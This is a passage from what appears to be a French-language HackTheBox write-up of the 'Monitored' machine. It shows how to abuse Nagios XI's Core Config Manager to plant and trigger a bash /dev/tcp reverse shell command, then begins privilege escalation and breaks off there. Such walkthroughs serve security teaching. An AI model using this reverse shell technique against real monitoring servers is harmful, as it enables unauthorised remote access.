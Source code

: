 ![User added via API successfully](/images/HTB-Monitored/user-created.png)

Avec le compte nouvellement créé, nous pouvons nous connecter à Nagios XI à l'adresse `https://nagios.monitored.htb/nagiosxi/`.

> Il vous sera demandé de changer le mot de passe après votre connexion.

![NagiosXI login success](/images/HTB-Monitored/nagiosxi-login.png)

Sur le tableau de bord, survolez le menu `Configure` et sélectionnez `Core Config Manager`.

![NagiosXI config](/images/HTB-Monitored/nagiosxi-config.png)

Sélectionnez `Commandes` et ensuite `Add New`.

![Core Config Manager](/images/HTB-Monitored/config-cmd.png)

![Add new command](/images/HTB-Monitored/new-cmd.png)

Ajoutez une commande reverse shell et sauvegardez-la.  Par exemple: `bash -c 'bash -i >& /dev/tcp/<IP_Address>/<Port> 0>&1'`.

![Reverse shell command](/images/HTB-Monitored/rev-shell-cmd.png)

Vous devez également cliquer sur `Apply Configuration` pour que la nouvelle commande soit listée. Vous devriez maintenant voir `149 Commands`.

![Apply configuration](/images/HTB-Monitored/apply-config.png)

Démarrons un listener sur le port spécifié dans notre commande.

Pour lancer la commande, allez dans `Monitoring` > `Hosts` > cliquez sur `localhost`.

![Configuration - localhost](/images/HTB-Monitored/localhost.png)

Sous `Check command`, sélectionnez votre commande et cliquez sur `Run Check Command` et vous obtiendrez une connexion sur votre listener.

![Initial Foothold](/images/HTB-Monitored/nagios-shell.png)

Le premier flag est accessible à `/home/nagios/user.txt`.

![User flag](/images/HTB-Monitored/user-flag.png)

## Elévation de Privilèges

En exécutant `sudo -l` nous découvrons que l'utilisateur peut manipuler deux services `nagios` et `npcd` en plus de pouvoir exécuter divers scripts.

![sudo -l command](/images/HTB-Monitored/sudo-l.png)

En utilisant la commande `find`, nous obtenons les emplacements exacts de `nagios` et de `npcd`.

```
find / -name nagios 2> /dev/null

find / -name npcd 2> /dev/null
```
